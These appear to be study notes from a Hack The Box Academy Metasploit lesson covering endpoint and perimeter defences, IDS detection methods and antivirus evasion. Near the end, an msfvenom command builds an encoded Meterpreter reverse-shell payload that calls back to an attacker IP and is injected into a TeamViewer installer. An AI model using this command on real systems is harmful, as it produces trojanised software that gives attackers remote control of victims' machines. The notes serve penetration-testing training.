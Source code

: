 ### Endpoint Protection
- any localized device or service whose sole purpose is to protect a single host on the network.
- like `Antivirus Protection`, `Antimalware Protection` (this includes bloatware, spyware, adware, scareware, ransomware), `Firewall`, and `Anti-DDOS` all in one

### Perimeter Protection
- `Perimeter protection` usually comes in physical or virtualized devices on the network perimeter edge. These `edge devices` themselves provide access `inside` of the network from the `outside`,
- De-Militarized Zone (`DMZ`),
	- This is a `lower-security policy level` zone than the `inside networks'` one, but with a higher `trust level` than the `outside zone`, which is the vast Internet. This is the virtual space where public-facing servers are housed, which push and pull data for public clients from the Internet but are also managed from the inside and updated with patches, information, and other data

### Security Policies

|**Security Policy**|**Description**|
|---|---|
|`Signature-based Detection`|The operation of packets in the network and comparison with pre-built and pre-ordained attack patterns known as signatures. Any 100% match against these signatures will generate alarms.|
|`Heuristic / Statistical Anomaly Detection`|Behavioral comparison against an established baseline included modus-operandi signatures for known APTs (Advanced Persistent Threats). The baseline will identify the norm for the network and what protocols are commonly used. Any deviation from the maximum threshold will generate alarms.|
|`Stateful Protocol Analysis Detection`|Recognizing the divergence of protocols stated by event comparison using pre-built profiles of generally accepted definitions of non-malicious activity.|
|`Live-monitoring and Alerting (SOC-based)`|A team of analysts in a dedicated, in-house, or leased SOC (Security Operations Center) use live-feed software to monitor network activity and intermediate alarming systems for any potential threats, either deciding themselves if the threat should be actioned upon or letting the automated mechanisms take action instead.|

### Evasion Techniques
The examples shown in the `Encoders` section show that simply encoding payloads using different encoding schemes with multiple iterations is not enough for all AV products. Moreover, merely establishing a channel of communication between the attacker and the victim can raise some alarms with the current capabilities of IDS/IPS products out there.

However, with the MSF6 release, msfconsole can tunnel AES-encrypted communication from any Meterpreter shell back to the attacker host, successfully encrypting the traffic as the payload is sent to the victim host.
- [US Government Post-Mortem Report on the Equifax Hack](https://www.zdnet.com/article/us-government-releases-post-mortem-report-on-equifax-hack/)
- [Protecting from DNS Exfiltration](https://www.darkreading.com/risk/tips-to-protect-the-dns-from-data-exfiltration/a/d-id/1330411)
- [Stopping Data Exfil and Malware Spread through DNS](https://channelpostmea.com/wp-content/uploads/2017/08/infoblox-whitepaper-data-exfiltration-and-dns-closing-the-back-door.pdf)


We are in luck because `msfvenom` offers the option of using executable templates. This allows us to use some pre-set templates for executable files, inject our payload into them (no pun intended), and use `any` executable as a platform from which we can launch our attack

```shell
CaraxesL@htb[/htb]$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5

ls

TeamViewer_Setup.exe

```
https://academy.hackthebox.com/module/39/section/416

there are multiple way to execute the payload refer the module form Archives
